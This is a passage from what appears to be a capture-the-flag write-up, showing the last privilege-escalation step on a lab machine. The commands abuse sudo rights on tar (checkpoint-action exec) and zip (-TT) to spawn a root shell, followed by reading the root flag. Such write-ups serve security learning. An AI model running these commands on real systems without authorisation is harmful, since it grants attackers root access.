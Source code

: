 ### Sudo Permissions

To get root via tar we execute the following command which will run /bin/bash on every checkpoint, this method was extracted from [GTFOBINS](https://gtfobins.github.io/gtfobins/tar/#sudo).

```console
zico@zico:~$ sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
<-cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash   
/bin/tar: Removing leading `/' from member names
root@zico:~#
```

We execute the following zip command to get root, this topic was obtained from [GTFOBINS](https://gtfobins.github.io/gtfobins/zip/#sudo).

```console
zico@zico:~$ sudo /usr/bin/zip /dev/null /etc/sudoers -T -TT 'bash #'
sudo /usr/bin/zip /dev/null /etc/sudoers -T -TT 'bash #'
  adding: etc/sudoers (deflated 49%)
root@zico:~#
```

And finally we read the root flag.

```console
root@zico:~# cd /root
cd /root
root@zico:/root# ls 
ls
flag.txt
root@zico:/root# cat flag.txt
cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 
# 
# 
#
#
```
